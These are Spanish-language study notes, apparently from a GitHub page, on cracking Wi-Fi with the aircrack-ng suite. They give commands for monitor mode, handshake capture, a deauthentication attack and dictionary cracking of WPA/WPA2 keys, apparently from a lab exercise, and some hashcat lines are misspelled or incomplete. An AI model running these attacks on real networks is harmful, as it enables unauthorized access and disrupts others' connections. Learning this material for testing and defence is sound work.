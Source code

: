 #### AIRCRACK-NG Suite
```bash
# Modo monitor
airmon-ng start wlan0

# Escaneo de redes
airodump-ng wlan0mon

# Captura específica
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Deauth attack
aireplay-ng -0 100 -a AA:BB:CC:DD:EE:FF wlan0mon

# Cracking
aircrack-ng -w wordlist.txt capture.cap

#Cracking con hascat
Hcxpcapngtool -o output.hccapx archivo.cap (transforma el archivo para que hashcat lo pueda reconocer)
Hascat output.hccapx (crackeo del archivo)
<img width="881" height="185" alt="image" src="https://github.com/user-attachments/assets/c64fe9d7-a605-4725-897b-564fda32524f" />

# 🛡️ Apuntes de Hacking Wi-Fi con aircrack-ng

## 1. Captura de Tráfico (airmon-ng + airodump-ng)
- 🔧 Iniciar modo monitor:
```

sudo airmon-ng start wlan0

```
- 📡 Capturar paquetes en un canal específico:
```

sudo airodump-ng --bssid 02:1A:11:FF:D9:BD -c 8 --write NinjaJc01-01 wlan0mon

```
- `--bssid`: dirección MAC del AP  
- `-c`: canal del AP  
- `--write`: prefijo de archivo .cap  

## 2. Fuerza bruta de clave WPA/WPA2 (aircrack-ng)
- 🎯 Comando mostrado:
```

aircrack-ng -b 02:1A:11:FF:D9:BD -e 'James Honor 8' \
-w /usr/share/wordlists/rockyou.txt NinjaJc01-01.cap

```
- `-b`: MAC del AP objetivo  
- `-e`: ESSID (nombre de la red)  
- `-w`: ruta al wordlist (rockyou.txt)  
- `NinjaJc01-01.cap`: fichero de captura de 4-way handshake  

## 3. Interpretación de parámetros
- 🔍 **-b 02:1A:11:FF:D9:BD**  
Identifica el punto de acceso objetivo por MAC.  
- 🏷️ **-e 'James Honor 8'**  
Indica el nombre de la red (ESSID).  
- 📂 **-w rockyou.txt**  
Wordlist popular para ataques de diccionario.  
- 📁 **cap file**  
Contiene el handshake necesario para verificar contraseñas.

## 4. Flujo de trabajo recomendado
```